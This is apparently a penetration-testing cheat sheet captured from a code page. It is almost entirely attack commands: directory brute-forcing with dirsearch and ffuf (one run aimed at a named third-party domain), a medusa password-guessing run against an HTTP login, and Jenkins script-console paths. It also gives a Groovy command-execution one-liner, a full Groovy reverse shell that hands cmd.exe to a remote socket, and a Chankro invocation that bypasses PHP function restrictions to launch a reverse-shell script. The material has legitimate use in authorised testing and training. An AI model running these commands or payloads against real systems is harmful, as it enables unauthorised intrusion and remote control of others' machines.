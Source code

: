```

./dirsearch.py -u 10.10.10.157

./dirsearch.py -u http://192.168.101.125:8080 -e html,php,asp,aspx,js,elf,txt -x 404,403,401,500 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

./dirsearch.py -u http://192.168.86.125 -e html,php,asp,aspx,js,elf,txt -x 404,403,401,500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

medusa -h 10.11.1.111 -u admin -P wordlist.txt -M http -m DIR:/test -T 10

Crawl:

dirhunt https://url.com/
hakrwaler https://url.com/

Fuzzer:

ffuf -recursion -c -e '.htm','.php','.html','.js','.txt','.zip','.bak','.asp','.aspx','.xml' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u https://url.com/FUZZ

dirsearch -r -f -u https://crm.comprarcasa.pt --extensions=htm,html,asp,aspx,txt -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --request-by-hostname -t 40

#IIS
#ViewState:
https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC

#WebResource.axd:
https://github.com/inquisb/miscellaneous/blob/master/ms10-070_check.py

#ShortNames
https://github.com/irsdl/IIS-ShortName-Scanner
java -jar iis_shortname_scanner.jar 2 20 http://domain.es

#Jenkins
JENKINSIP/PROJECT//securityRealm/user/admin
JENKINSIP/jenkins/script

#Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";
#Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# Joomscan
joomscan -u  http://10.11.1.111
joomscan -u  http://10.11.1.111 --enumerate-components

# PHP bypass disable_functions and open_basedir
# Chankro
https://github.com/TarlogicSecurity/Chankro
python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html

# Cookies error padding:
# Get cookie structure
```